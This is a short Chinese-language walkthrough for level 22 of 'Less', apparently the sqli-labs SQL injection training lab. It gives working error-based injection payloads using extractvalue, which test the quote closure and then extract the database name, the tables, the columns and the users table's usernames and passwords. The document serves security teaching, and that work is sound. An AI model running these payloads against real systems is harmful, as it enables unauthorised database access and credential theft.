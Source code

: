 ```yaml
---
title: Less - 22
date: 2023-03-15T14:00:31Z
lastmod: 2023-03-15T14:12:28Z
---
```


# Less - 22

---

# 通关教程

---

## 1、判断闭合

---

尝试如下闭合

```html
admin"
```

​![image](assets/image-20230315140527-g9565ow.png)​

```html
admin"#
```

​![image](assets/image-20230315140616-4crlhpr.png)​

---

## 2、查看数据库名

---

```html
1" and extractvalue(1,concat(0x7e,database(),0x7e));#
```

​![image](assets/image-20230315140745-9jr99jl.png)​

---

## 3、查看数据表名

---

```html
1" and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e));#
```

​![image](assets/image-20230315140937-2irsd8f.png)​

---

## 4、查看字段名

---

```html
1" and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e));#
```

​![image](assets/image-20230315141131-1asx4qn.png)​

---

## 5、查看字段值

---

```html
1" and extractvalue(1,concat(0x7e,(select group_concat(username,password) from users),0x7e));#
```

​![image](assets/image-20230315141219-t40sit9.png)​

‍
